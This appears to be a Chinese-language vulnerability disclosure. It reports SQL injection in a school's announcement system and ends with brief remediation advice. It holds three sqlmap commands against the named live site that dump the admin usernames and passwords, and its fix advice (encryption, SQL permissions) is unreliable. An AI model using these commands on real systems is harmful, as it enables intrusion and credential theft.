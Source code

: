 # 管理系統可被公告id=注入sql
## 詳情:
隨便以一篇文章網址做為範例:http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843  
可以被使用sqlmap這類的工具直接進行注入，進而取得公告管理員帳號密碼  
示範(以sqlmap指令示範):
```
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --tables -D maoshe
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --columns -T admin -D maoshe
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --dump -C "username,passwd" -T admin -D maoshe
```
接者資料庫內容就被攻擊者一覽無遺了  
![sql](https://raw.githubusercontent.com/William957-web/SGGScyber/main/images/sqlinetion.png)  
這個漏洞事關重大，以下會談即如何防範。  
# 解決方法  
最消極但簡單的方法就是對後端資料加密，但是這樣無法防止資料被查看，可以使網頁保有一定安全性。  
再來，從資料庫本身做防範的話，則是使用sql內建語法做修正，可以明確定義那些是管理員才可檢視的內容。  
